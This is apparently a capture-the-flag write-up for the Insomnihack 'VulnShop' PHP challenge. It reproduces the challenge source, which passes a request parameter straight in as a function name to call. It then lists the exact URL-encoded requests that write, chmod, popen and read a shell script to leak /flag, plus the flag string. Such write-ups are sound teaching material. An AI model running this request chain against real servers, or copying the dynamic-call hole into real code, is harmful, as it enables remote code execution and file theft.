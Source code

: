 ![description](images/description.png)

# Getting Started:

We're given a link to the VulnShop webpage, which contains links to the source code of the page, as well as php configuration details about the server.

![index page](images/index.png)

Here is the given source code:
```php
<?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
    error_reporting(0); session_start();  
    // Anti XSS filter 
    $_REQUEST = array_map("strip_tags", $_REQUEST); 
    // For later, when we will store infos about visitors. 
    chdir("tmp"); 
?> 
<!DOCTYPE html> 
<html> 
    <head> 
        <title>Work in progress...</title> 
        <meta charset="utf-8" /> 
        <meta http-equiv="content-type" content="text/html; charset=utf-8" /> 
        <style> 
            body { 
                background-color: #aaa; 
                color:#fff; 
            } 
             
            .page { 
                width: 50%; 
                margin: 0 auto; 
                margin-top: 75px; 
            } 
             
             
            .menu ul li { 
                display:inline-block; 
                vertical-align:top; 
                margin-right: 30px; 
                 
            } 
        </style> 
    </head> 
    <body> 
        <div class="page"> 
            <div class="menu"> 
                <ul> 
                    <li><a href="?page=default">Home</a></li> 
                    <li><a href="?page=introduction">Introduction</a></li> 
                    <li><a href="?page=privacy">Privacy</a></li> 
                    <li><a href="?page=contactus">Contact</a></li> 
                </ul> 
            </div> 
             
            <div class="content"> 
                <?php 
                        switch($_GET['page']) { 
                            case 'default': 
                            default: 
                                echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>"; 
                                break; 
                            case 'introduction': 
                                echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>"; 
                                break; 
                            case 'privacy': 
                                echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>"; 
                                break; 
                            case 'contactus': 
                                echo "<p>You can't contact us for the moment, but it will be available later.</p>"; 
                                $_SESSION['challenge'] = rand(100000,999999); 
                                break; 
                            case 'captcha': 
                                if(isset($_SESSION['challenge'])) echo $_SESSION['challenge']; 
                                // Will make an image later 
                touch($_SESSION['challenge']); 
                                break; 
                            case 'captcha-verify': 
                // verification functions take a file for later, when we'll provide more way of verification 
                                function verifyFromString($file, $response) { 
                                    if($_SESSION['challenge'] === $response) return true; 
                                    else return false; 
                                } 
                                 
                                // Captcha from math op 
                                function verifyFromMath($file, $response) { 
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true; 
                                    else return false; 
                                } 
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){ 
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']); 
                                } 
                                break; 

                        } 
                ?> 
            </div> 
        </div> 
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p> 
        <p><a href="/phpinfo.php">Show our configurations</a></p> 
    </body> 
</html> 
```

From this code, we see that the server will generate a new random number and set our `challenge` variable every time we navigate to `/contactus`. This challenge is also stored as a file, and is used in later requests to `/captcha` and `/captcha-verify`.

In the handler for `/captcha-verify`, there's a line that allows us to call arbitrary functions, with the random number filename as the first parameter, and our input as the second parameter.
From this, it seems like a good way to solve the challenge would be to try to write some code to the file using this vulnerable function, use it again to execute the code that we wrote, and then use it again to read the output of our code.

# The Exploit:

Here is the script we will execute on the server (this appends the contents of `/flag` to the end of the currently running script):
```bash
#!/bin/sh
cat /flag >> "./${0##*/}";
```

We can only use functions that follow the format: `func(filename, input)`, where we can't control the filename (since it's randomly generated, and we can't edit it), but can control the input.

We also cannot use any of the functions listed in the `disable_functions` section of the server config (ie, most of the functions that would allow us to execute the code). Luckily, the server still allows us to use popen to execute files.

## Actual commands used:
We write the script to the file with file_put_contents(filename, our_script).

We then use chmod(filename, "511") to make it executable. PHP casts our string input to a decimal integer, and decimal 511 = octal 0777, which gives read/write/execute permissions to everyone on the server.

We run the new file with popen(filename, "r")

We read the output with highlight_file(filename, "")

Here are the actual requests made to exploit the server:

## Get a randomly generated challenge:
`http://vulnshop.teaser.insomnihack.ch/?page=contactus`

## Write the script to the file:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=%23!%2Fbin%2Fsh%0Acat%20%2Fflag%20%3E%3E%20%22.%2F%24%7B0%23%23*%2F%7D%22%3B`

## Turn it executable:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=chmod&answer=511`

## Run the script:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=popen&answer=r`

## Read the output (which is now appended to the end of the script we wrote):
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=highlight_file&answer=`

![output of the exploit](images/output.png)

And now we get the flag: `INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun}`

